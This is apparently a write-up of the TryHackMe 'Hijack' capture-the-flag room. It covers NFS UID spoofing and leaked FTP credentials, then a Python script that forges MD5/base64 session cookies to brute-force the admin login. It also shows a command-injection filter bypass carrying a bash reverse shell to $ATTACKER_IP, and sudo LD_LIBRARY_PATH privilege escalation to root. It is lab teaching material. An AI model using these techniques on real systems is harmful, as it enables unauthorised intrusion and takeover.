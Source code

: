 # Hijack Writeup

This is a writeup for the Tryhackme challenge [Hijack](https://tryhackme.com/room/hijack)

## Enumeration

First, nmap as follows:

```sh
nmap --min-rate 4000 -p- 10.10.16.106
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-21 11:56 CEST
Nmap scan report for 10.10.16.106
Host is up (0.063s latency).
Not shown: 65526 closed tcp ports (conn-refused)
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
2049/tcp  open  nfs
38490/tcp open  unknown
44511/tcp open  unknown
49338/tcp open  unknown
57526/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 18.56 seconds
```

Since there is an NFS I want to take a look at it.

```sh
showmount -e 10.10.16.106
Export list for 10.10.16.106:
/mnt/share *
```

So, there is a share I can mount in the following way

```sh
mkdir /tmp/nfsfiles
sudo mount -t nfs 10.10.16.106: /tmp/nfsfiles
```

A look at the file permissions tells me, that a user with uid 1003 created the
share. Therefore, a user with the same uid on the local attack machine, where
the share has been mounted, is needed to get permissions to open the directory.

```sh
ls -l nfsfiles/mnt/

drwx------ 2 1003 1003 4096 Aug  8 21:28 share
```

```sh
sudo useradd hijack -u 1003  -m -s /bin/bash
```

Now switch to the user and take a look at the inside of the share.

```sh
sudo su hijack

ls -la nfsfiles/mnt/share/
total 12
drwx------ 2 hijack hijack 4096 Aug  8 21:28 .
drwxr-xr-x 3 root   root   4096 Aug  8 21:28 ..
-rwx------ 1 hijack hijack   46 Aug  8 21:28 for_employees.txt
```

Taking a look at the file provides the following

```sh
cat nfsfiles/mnt/share/for_employees.txt

ftp creds :

ftpuser:XXXXXXXXXXXXXXXXXXXXXXXX
```

Next up, using the credentials on the ftp server

```sh
ftp ftpuser@10.10.16.106
Connected to 10.10.16.106.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
229 Entering Extended Passive Mode (|||38678|)
150 Here comes the directory listing.
drwxr-xr-x    2 1002     1002         4096 Aug 08 19:28 .
drwxr-xr-x    2 1002     1002         4096 Aug 08 19:28 ..
-rwxr-xr-x    1 1002     1002          220 Aug 08 19:28 .bash_logout
-rwxr-xr-x    1 1002     1002         3771 Aug 08 19:28 .bashrc
-rw-r--r--    1 1002     1002          368 Aug 08 19:28 .from_admin.txt
-rw-r--r--    1 1002     1002         3150 Aug 08 19:28 .passwords_list.txt
-rwxr-xr-x    1 1002     1002          655 Aug 08 19:28 .profile
226 Directory send OK.
```

Two files are `.from_admin.txt` and
`.password_list.txt` are of special interest . The former file contains the following

```
To all employees, this is "admin" speaking,
i came up with a safe list of passwords that you all can use on the site, these passwords don't appear on any wordlist i tested so far, so i encourage you to use them, even me i'm using one of those.

NOTE To rick : good job on limiting login attempts, it works like a charm, this will prevent any future brute forcing.
```

The latter is a list of random passwords the admin seems to have created earlier.

## Exploitation

At first I tried to circumvent the rate limiting, which took a lot of time and
led nowhere in the end. The key is the `PHPSESSID` cookie, it looked a bit
suspicious so I tried to decode it for the user I created on the page.

```base64
d2h4OmE4ZjVmMTY3ZjQ0ZjQ5NjRlNmM5OThkZWU4MjcxMTBj
```

decoded to

```
whx:a8f5f167f44f4964e6c998dee827110c
```

That hash looked a lot like an md5 hash, so I compared it to the password I used

```sh
echo -n "asdasd" | md5sum
a8f5f167f44f4964e6c998dee827110c  -
```

After that I created a Python script to hash & encode the cookie before iterating
the list and in this way I got the correct password.

```python
import hashlib
import base64
import requests

URL = "http://10.10.16.106/administration.php"

with open ("./ftp/passwords_list.txt", 'r') as _f:
    data = [x.strip() for x in _f.readlines()]

r = requests.get(URL)
page_content = r.text
print(r)

for line in data:
    _hash = hashlib.md5(line.encode('utf-8')).hexdigest().encode('utf-8')
    concat_str = b'admin:' + _hash
    _b64hash = base64.b64encode(concat_str).decode()
    print(_b64hash)
    headers = { "Cookie": f"PHPSESSID={_b64hash}"}
    r = requests.get(URL, headers=headers)
    if len(r.text) > len(page_content):
        print("password: " + line)
        print("cookie: " + _b64hash)
        break
```

After login there is a `Service Status Checker` on the administration page. You
can see the status of services/daemons installed on the box of the challenge through
`systemctl status <command>`. My first impression was to just chain commands
through `;` like `ssh
; id`, but that ended in

> Command injection detected, please provide a service.

Most of the commonly used shells have boolean operators like `&&` and `||` as a
condition for the previous exit status code. For example in bash you can check
the status code of the last command that was executed via `echo $?`. That means `&&` is true if the previous command
would return a `0` otherwise `||` is true and the command afterwards will be
executed.
These operators are not blocked by the page, it is possible to chain commands
like this

```sh
sshd && bash -c "bash -i >& /dev/tcp/$ATTACKER_IP/4444 0>&1"
```

Catch the shell via `nc -lvnp 4444` and [upgrade
it](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/).

## Privilege Escalation

On the target `config.php` contains credentials for the user rick.

```php
 cat config.php
<?php
$servername = "localhost";
$username = "rick";
$password = "XXXXXXXXXXXXXXXXXXX";
$dbname = "hijack";

// Create connection
$mysqli = new mysqli($servername, $username, $password, $dbname);

// Check connection
if ($mysqli->connect_error) {
  die("Connection failed: " . $mysqli->connect_error);
}
?>
```

So, I switched to the user using `su rick` and got the first flag inside
`/home/rick/user.txt`. One of the first things to check on gained privileges is the current user's
permissions on  the availability of substituting other users, usually using
sudo.

```sh
su rick
Password: 

rick@Hijack:/var/www/html$ sudo -l
[sudo] password for rick: 
Matching Defaults entries for rick on Hijack:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    env_keep+=LD_LIBRARY_PATH

User rick may run the following commands on Hijack:
    (root) /usr/sbin/apache2 -f /etc/apache2/apache2.conf -d /etc/apache2
```

Checking permissions did provide the inability to write on any of the files that are contained in the command that can be run through sudo for user rick. That means,
the next best thing to concentrate on is `env_keep+=LD_LIBRARY_PATH`.
[Hacktricks' page on linux privilege
escalation](https://book.hacktricks.xyz/linux-hardening/privilege-escalation)
contains [a section for
LD_LIBRARY_PATH](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#ld_preload-and-ld_library_path). 
I Compiled the library and preloaded it on the same line as the available sudo
command. Through this method I was able to spawn a root shell.

```sh
rick@Hijack:/tmp$ sudo LD_LIBRARY_PATH=/tmp /usr/sbin/apache2 -f /etc/apache2/apache2.conf -d /etc/apache2

root@Hijack:/tmp#
```

The flag can be found inside the root directory

```sh
root@Hijack:/tmp# cat /root/root.txt

██╗░░██╗██╗░░░░░██╗░█████╗░░█████╗░██╗░░██╗
██║░░██║██║░░░░░██║██╔══██╗██╔══██╗██║░██╔╝
███████║██║░░░░░██║███████║██║░░╚═╝█████═╝░
██╔══██║██║██╗░░██║██╔══██║██║░░██╗██╔═██╗░
██║░░██║██║╚█████╔╝██║░░██║╚█████╔╝██║░╚██╗
╚═╝░░╚═╝╚═╝░╚════╝░╚═╝░░╚═╝░╚════╝░╚═╝░░╚═╝

THM{XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX}
```

Happy Hacking!
